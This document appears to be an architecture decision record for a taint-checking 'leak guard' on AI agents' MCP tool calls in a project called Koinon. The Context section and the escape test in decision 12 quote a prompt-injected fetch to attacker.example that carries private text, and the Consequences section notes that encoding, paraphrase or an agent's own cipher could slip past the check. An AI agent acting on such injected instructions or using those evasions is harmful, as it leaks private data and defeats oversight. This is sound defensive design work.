

# 0084. Leak guard: a taint check on every MCP tool call, in koinon-api

- Status: Accepted (decisions by procoduck, 2026-10-31; delivery before v0.1.0); amended by [0091](0091-leak-guard-by-destination.md) (2026-11-03: the main protection is where a call sends data; the text check is a frozen secondary alarm)
- Date: 2026-10-31
- Amends: [0042](0042-ask-tier-park-and-execute.md) (a leak becomes an approval), [0057](0057-mcp-servers.md) (servers declare a data class and kind; every org route carries the guard)
- Relates to: [0051](0051-session-home-generations.md) (home generations), [0040](0040-agentgateway-model-and-mcp-gateway.md), [0023](0023-observability-and-audit.md), [0020](0020-agent-builder-and-templates.md)
- Issue: old issue 347, part of #51; implemented by old issue 348, old issue 349, old issue 350, old issue 351 and #70

## Context

An agent that holds untrusted input (web reads), private data (repositories, internal docs, FinOps
data) and an outbound tool in the auto tier holds all three legs of the "lethal trifecta". A page it
reads can tell it to fetch `https://attacker.example/?d=<excerpt>`. The fetch runs in the MCP server,
outside the sandbox, so OpenShell's proxy never sees it, and an auto-tier tool never reaches a person
(ADR 0057, amendment item 6). The harness research (round 3, synthesis §5.2) and the security report
(§3.3) name this Koinon's main exfiltration path; the shipped `researcher` template held all three
legs (`templates/researcher.yaml`, the `web_url_read` grant; `test/fixtures/rt1/README.md`, the
SearXNG fixture next to private docs and FinOps data).

Issue #51 first proposed computing the three legs from each agent version's grants and forcing the
ask tier on every outbound tool when all three hold. procoduck rejected that on 2026-10-31: approval
fatigue makes people approve without reading, which protects nothing. The goal is a guard that adds
no human click in normal use ("no agent nannies"), so that a person only ever sees a real leak
attempt.

agentgateway (ADR 0040) can call an external processor on every MCP tool call: ExtMcp, configured as
`mcpGuardrails` on a route, with a request check and a response check (the spike proto,
`hack/spike/extmcp/proto/ext_mcp.proto`). The ExtMcp spike (ADR 0048, step 6.5) showed it can allow
or deny a call on its arguments.

Deep dive G1 (research store, `g1-trifecta-controls`) evaluated the controls on recorded rc.9
traffic: with the guard below, **0 of 218 fetches were blocked and 0 of 272 egress calls flagged**,
while the synthetic encoded and split leaks were caught.

## Decision

1. **The guard lives in koinon-api.** agentgateway's ExtMcp `mcpGuardrails` calls it on every MCP
   tool call: configured as a remote processor, `failClosed`, on each org's MCP route (the
   reconciler renders it). The guard decides on the call's arguments and returns allow or block; it
   uses the pure package `internal/leakguard` (old issue 348), wired in old issue 349.
2. **A taint store of private data.** The guard keeps winnowed fingerprints of private data,
   normalised and taken over windows, not the private text itself. Two feeds fill it:
   - **agentd** fingerprints the tool results it sees inside the sandbox (repository reads, shell
     output) and sends the fingerprints to koinon-api;
   - **the gateway** passes MCP tool results to the guard, which fingerprints them.
   Before matching, the guard normalises text (case, whitespace, Unicode form, separators) and
   undoes the encodings an attacker would use: URL percent-encoding, base64 and hex, and text split
   across several arguments of one call.
3. **Threshold.** A call's arguments match when they contain tainted text of at least **24
   characters** after normalisation. The threshold is configurable per org; 24 is the default.
4. **Taint covers the whole home generation** (ADR 0051), not one run: the agent's notes in its home
   carry private data from one run into the next, so a later run that sends text first read in an
   earlier run is still caught. A new home generation starts an empty store.
5. **An automatic shape-and-budget URL rule.** To a host the org has not allowed, an outbound URL
   must not carry a long query string, encoded data in its path or a high-entropy blob, and stays
   within per-host and per-run budgets. The rule needs no configuration and no human click. The
   **org fetch-trusted host list**, the hosts exempt from the rule, **starts empty** (old issue 350).
6. **Sinks.** Fetches and **web search queries** are outbound sinks: a search query is checked like
   a fetch, since the query text leaves for the search provider.
7. **Only a real leak becomes an approval.** A call whose arguments match the taint store is blocked
   and becomes an ADR 0042 approval request for that exact call, and the approval card shows what
   would leave (the matched text in the arguments). A call that does not match passes with no
   approval and no delay a person would notice. Forcing the ask tier on every outbound call of an
   agent with all three legs is rejected.
8. **MCP servers declare their data class and kind** (old issue 350). A server record says which legs it
   carries (untrusted input, private data, outbound tool) and its kind (for example fetch or
   search), so the guard and the template test read a declaration instead of guessing from names.
9. **Templates.** `researcher` becomes private-only (repositories and private data, no web reads); a
   new `web-researcher` is web-only (web reads and search, no private data). No shipped template
   combines untrusted input, private data and an auto-tier outbound tool, and a templates test
   fails if one does (old issue 351).
10. **Failure mode: fail closed.** When koinon-api is unreachable, or the guard does not answer in
    time, agentgateway refuses the MCP call and the agent gets a clear error saying the tool call
    could not be checked. No MCP call leaves unchecked. Model requests are not affected (the guard
    is on the MCP route only). An org recovers when koinon-api is back: the next call is checked
    normally, and nothing needs resetting; the refused calls stay refused tool errors in their
    runs. koinon-api
    is already the control plane for approvals and runs, so failing closed on it adds no new
    component an org depends on.
11. **A Koinon-owned fetch server follows in v0.2.** Until then the guard sits in front of whatever
    fetch and search servers an org adds; v0.1 does not ship its own.
12. **Tests keep it honest** (#70): a replay suite of rc.9-shaped traffic asserts no blocks on
    benign traffic and a block on each synthetic leak; RT1 fixtures carry canary private strings
    for local real-model runs; the escape suite has an exfil case (a fake-model agent told to fetch
    `https://attacker.example/?d=<private text>` is blocked and an approval appears, a clean fetch
    passes without one).

## Alternatives considered

- **Force the ask tier on every outbound tool when an agent holds all three legs** (the original
  proposal in #51). Rejected by procoduck: every research run would ask, people would approve without
  reading, and the control would protect nothing.
- **A URL policy in the fetch server only.** Catches query-string exfiltration to unknown hosts but
  not a search query, a split or encoded excerpt, or a server Koinon does not run. Kept as one part
  (decision 5), now applied in the guard; the Koinon fetch server of v0.2 is where it can also live.
- **Taint per run.** Rejected: notes in the home carry private data across runs, so a per-run store
  misses the second run of a researcher.
- **The guard as a separate service.** Not chosen: koinon-api already holds the approval service,
  org settings and the MCP server records the guard reads _(reconstructed)_.
- **Fail open when the guard is down.** Rejected: an attacker who can make the guard slow would turn
  it off _(reconstructed)_.

## Consequences

- Positive: an agent that reads the web and private data together can no longer copy private text
  out through a tool argument unnoticed, and normal use adds no click (the rc.9 replay result).
- Positive: a person sees an approval only for a real leak attempt, with the text that would leave.
- Positive: the store holds fingerprints, not private text, so the guard adds no copy of private data
  _(inferred)_.
- Negative: every MCP tool call gains a round trip to koinon-api, and MCP calls stop while koinon-api
  is unreachable (decision 10).
- Negative: the guard catches copied text and the listed encodings. An agent that transforms data in
  a way the decoders do not undo (its own cipher, paraphrase) is not caught by the taint check; the
  URL shape rule and budgets are the backstop for the high-entropy result _(inferred)_.
- Negative: taint from inside the sandbox depends on agentd seeing the tool results; output agentd
  does not see is not fingerprinted _(inferred)_.
- Negative: org admins who rely on long-query URLs to a host must add it to the fetch-trusted list.
- Metrics follow ADR 0023: guard decisions are counted with fixed labels (decision and reason), never
  org, agent, run or ticket IDs. Changes to the fetch-trusted host list and the threshold are audited
  (old issue 350).
- Follow-ups: old issue 348 (normaliser, decoders, taint store, URL rule), old issue 349 (mcpGuardrails per org route,
  agentd fingerprints, guard endpoint), old issue 350 (data class and kind, fetch-trusted hosts, threshold),
  old issue 351 (template split and the three-legs test), #70 (replay suite, RT1 canaries, escape case); the
  Koinon fetch server in v0.2.

## Open questions

The decisions on #51 leave these open; each is settled in the implementation issue named.

- **URL-rule violations:** a taint match becomes an approval (decision 7). Whether a URL-rule block
  without a taint match also becomes an approval, or is a plain refusal with a reason the agent can
  act on, is not decided (old issue 349's text says approval; "only a real leak reaches a person" suggests a
  refusal).
- **Numbers of the URL rule:** the maximum query-string length, what counts as encoded path data,
  the entropy threshold and the per-host and per-run budgets (old issue 348).
- **Normalisation details:** the exact Unicode form, which characters count as separators, and how
  far a split across arguments is reassembled (old issue 348).
- **Which calls the taint check applies to:** every call's arguments, or only tools of servers
  declared outbound. In particular, an ask-tier tool on a private-data server (a GitHub comment)
  already needs approval; whether its card is also marked when it matches is open (old issue 349).
- **The agent-facing result of a blocked call:** an ExtMcp block, or the "approval requested" result
  of ADR 0042 so that the run parks and Koinon executes the call after approval through the ADR 0057
  executor (old issue 349).
- **Approval scopes:** whether an AP1 scope (ADR 0042) may ever cover a leak approval (old issue 349).
- **Where the taint store lives:** in koinon-api memory or in Postgres, how it survives a koinon-api
  restart and works with several replicas, its size limit and eviction (old issue 348, old issue 349).
- **Fingerprint keying:** whether fingerprints are keyed per home generation, so that a hash of a
  short window cannot be reversed by guessing (old issue 348).
- **Guard timeout:** the ExtMcp processor timeout the reconciler renders (old issue 349).
- **An emergency bypass:** whether an org or platform admin can switch the guard off for an org while
  koinon-api is degraded; none is decided, so none is built.

## Amendment (2026-11-03, old issue 348): the work budget decides, the clock is a 5 s backstop

procoduck, 2026-11-03: "A work limit decides; 5 s backstop". The first core (old issue 348) bounded one taint
check by a work counter (`MaxWorkBytes`, 32 MiB) and a wall clock of 1 s. On a loaded 3-CPU node (
other test packages in parallel) benign calls took 1.0 to 1.1 s and the one-core smoke test 2.8 s, so
the clock refused calls that were fine: how long a check takes depends on the machine, not on the
call. Now:

- `MaxWorkBytes` is the budget that decides. It counts the bytes decoded, normalised and
  fingerprinted, which are the same on every machine, so a call that blows up decoding (deep
  nesting, variant explosion, pairs of many arguments) ends with the same verdict (`budget_work`,
  `budget_variants`, `budget_args` for the pair budget, `decode_depth`) everywhere. The benign
  shapes measured are charged under half of it.
- `MaxDuration` defaults to 5 s and is a safety net for a stuck or starved machine, not a policy. A
  benign call must not depend on it. It stays fail-closed (`budget_time`), and a cancelled context
  still ends a check at once.
- The guard timeout the reconciler renders for the ExtMcp processor (open question above, old issue 349)
  must be longer than the 5 s backstop plus the store lookup, so the guard answers before agentgateway
  gives up.

### Amendment 2026-11-03: the data class and the org settings (old issue 350)

The data model old issue 349 builds on, as shipped in migration `00050`:

- **Kind and legs.** `mcp_servers.kind` is `fetch`, `search` or `other` (enum `mcp_server_kind`). The
  server legs are two booleans (`exposes_untrusted_input`, `exposes_private_data`), not an array: the
  set is closed, a boolean is checkable and indexable, and the API and UI show them as the list
  `untrusted_input`, `private_data`. There is **no outbound leg**: ADR 0091 replaces it with a sink
  class per tool (below), so `exposes_outbound` is not in the schema and the API refuses `outbound`.
- **Unclassified default.** A server nobody classified, and every server that existed before the
  migration, is kind `other` with both legs. This is the cautious reading, so the guard treats it
  as the worst case and nothing changes until an admin declares less. An admin may declare no leg at
  all.
- **Declared servers.** The class is not a Secret key. It is set through the admin API or the console
  (`mcp_server.data_class.set`, audited with before and after) and survives the Secret being applied
  again with the same URL.
- **A new URL resets the class.** When an update or a Secret re-apply changes a server's URL, its
  class goes back to the default (kind `other`, both legs): the class described the old
  endpoint, and a server re-pointed from a docs server to a GitHub server must not keep a narrowing
  that no longer holds. The same transaction audits it as `mcp_server.data_class.reset` (before and
  after, reason `url_changed`) when the class was not already the default. A change of transport or
  credential alone keeps the class.
- **Sink class per tool (ADR 0091).** `mcp_tools.sink_class` is `none`, `internal`, `external-low` or
  `external-high` (enum `mcp_sink_class`), default **external-high**, so a tool nobody declared is the
  worst case. `sink_derivation` is `fixed` (the class column is the class), `code_host` or `fetch`
  (the class is decided per call from the arguments named in `address_args`, an ordered `text[]`:
  `[owner, repo]` for a code host, `[url]` for a fetch; every other argument is payload). A derived
  tool stores external-high as its fallback, for an address that does not parse. `result_untrusted_input`
  and `result_private_data` are nullable overrides of the server's legs for what the tool's results
  carry (NULL means the server's). It is set by `SetToolSink` (`PUT /mcp-servers/{id}/tools/{tool}/sink`),
  audited as `mcp_tool.declaration.set` with before and after. The request carries the `content_hash`
  of the tool the admin reviewed; the tool is read under `FOR UPDATE`, and a different hash is
  `ABORTED` (HTTP 409) and changes nothing, so a declaration is never stored against text the admin did
  not see. The argument names are checked for shape only, not against the tool's input schema.
- **A new URL or a new tool hash resets the declaration (ADR 0057).** When a server's URL changes (an
  update or a Secret re-apply), every declared tool of it goes back to external-high, fixed, no
  address arguments and the server's legs, in the same transaction as the class reset, audited per
  tool as `mcp_tool.declaration.reset` (reason `url_changed`). When a sync finds a tool whose content
  hash changed, that tool's declaration resets the same way (reason `content_changed`, actor system),
  for the same reason as its tier: the declaration described text that is gone.
- **Code-host scope, per connection (ADR 0091 decision 3).** `org_code_host_repos(org_id,
  connection_id, owner, repo, visibility, checked_at)` holds the repositories each code-host
  connection can reach and the visibility its connector last read (`private`, `internal`, `public`,
  `unknown`); owner and repo are lower case. A server is linked to the connection it acts through by
  `mcp_servers.code_host_connection_id` (set with the data class; cleared by a URL change, audited as
  part of `mcp_server.data_class.reset`; a deleted connection unlinks it). We key by connection ID,
  not by code-host base URL, because the scope table already belongs to a connection, a connection
  is the credential and identity the server acts with, and the data model stores no base URL to key
  by. The link is per server: the server is the endpoint the connection belongs to. `Classify` takes
  that connection ID and looks the repository up in its list only, so `northwind/platform-handbook`
  private on a Gitea connection does not make a GitHub MCP write to a same-named public repository
  internal. A write derives as **internal only if the linked connection lists the repository, not
  public, with a fresh reading**. A server with no link, a public, unknown, unlisted or stale
  repository, a foreign owner, a non-ASCII or unparsable name derives external-high. Names are ASCII
  only (U+212A lower-cases to `k`). Decision of old issue 350 on the ADR's open question: a reading is **fresh
  for 1 hour** (`DefaultVisibilityMaxAge`) and a stale one counts as unknown; a reading dated more
  than a minute in the future counts as stale on read and is refused by `ReplaceCodeHostRepos`, the
  writer a connector uses. The leak-guard view reports the counts by visibility and how many are stale.
  Each reading is tied to the credential that took it (#244): `org_code_host_readings(org_id,
  connection_id, secret_fingerprint, checked_at)` keeps the newest reading per connection, also an empty
  one. `ReplaceCodeHostRepos` takes the secret fingerprint of the connection row the connector opened and,
  under the scope lock, refuses (`ErrCredentialChanged`) a reading whose fingerprint is not the connection's
  now, and drops one older than the stored reading. The connection row is locked first (FOR UPDATE by
  both secret-change paths, FOR KEY SHARE by the replacement), then the scope. Every secret change (the UI path and a declared update
  with another key or site) deletes the connection's repositories and reading in the same transaction,
  and the scope read ignores repositories whose reading has another fingerprint.
- **Threshold.** `org_settings.leak_match_threshold` is NULL for the default 24 and otherwise 12 to 256
  (the bounds of `internal/leakguard`, enforced by a CHECK). The API treats 0 or absent as "back to
  the default".
- **Fetch-trusted hosts.** `org_fetch_trusted_hosts(org_id, id, host)`, empty for a new org, at most
  256 per org (the cap is checked under a lock on the org's settings row, so parallel adds cannot pass
  it). Add and remove are audited as `org.fetch_trusted_host.add` and `.remove`. procoduck's contract
  (2026-11-03), which old issue 349 relies on (`LeakGuard.TrustsHost`):
  - An entry is one lower-case DNS name, matched **exactly**: `docs.example.com` trusts that host, not
    its subdomains and not its parent.
  - An admin may also add a **wildcard** entry `*.example.com` on purpose. It trusts any subdomain at
    any depth (`a.example.com`, `a.b.example.com`) but **not `example.com` itself**, which needs its
    own entry. Matching is on whole labels, so `evilexample.com` and `example.com.evil.net` match
    nothing.
  - Only a leading `*.` is allowed: `*` alone, a `*` anywhere else, and a wildcard over a public
    suffix (`*.com`, `*.co.uk`, `*.blogspot.com`, by the `golang.org/x/net/publicsuffix` list) are
    refused.
  - The name after the optional `*.` follows the same rules in both forms. It has at least two labels
    (`localhost` and `intranet` are refused). Its last label is not a number a resolver reads as an
    IPv4 address (all digits, or `0x` and hex digits: `127.1`, `2130706433`, `0x7f.1`). It is not a
    URL, port, path or IP address. A Unicode name is accepted and stored in punycode (via
    `golang.org/x/net/idna`; a name that does not convert is refused). The database CHECK encodes the
    same shape rules; the public-suffix test is the application's.
  - `golang.org/x/net` was already in `go.mod` at the same version (an indirect requirement); using
    its `publicsuffix` and `idna` packages moves the line to the direct block and adds no new module.

## Upstream verification

agentgateway v1.6.0 ExtMcp (`ext_mcp.proto`, request and response checks) was exercised in the
OpenShell spike, step 6.5 (ADR 0048). The `mcpGuardrails` failClosed behaviour per route is verified
by the render and API tests of old issue 349.

## Links

- Issue #51 and procoduck's decision comments of 2026-10-31: [before v0.1.0, no agent nannies](https://github.com/stateracloud/koinon/issues/51#issuecomment-6536011535), [guard in koinon-api](https://github.com/stateracloud/koinon/issues/51#issuecomment-6537259664), [details](https://github.com/stateracloud/koinon/issues/51#issuecomment-6537327578)
- Research store: deep dive G1, `g1-trifecta-controls`; harness research round 3, `research/harness-r3/SYNTHESIS.md` §5.2
- https://agentgateway.dev/docs/standalone/main/mcp/guardrails/about/
- ADRs [0042](0042-ask-tier-park-and-execute.md), [0048](0048-openshell-spike-results.md), [0051](0051-session-home-generations.md), [0057](0057-mcp-servers.md), [0023](0023-observability-and-audit.md)
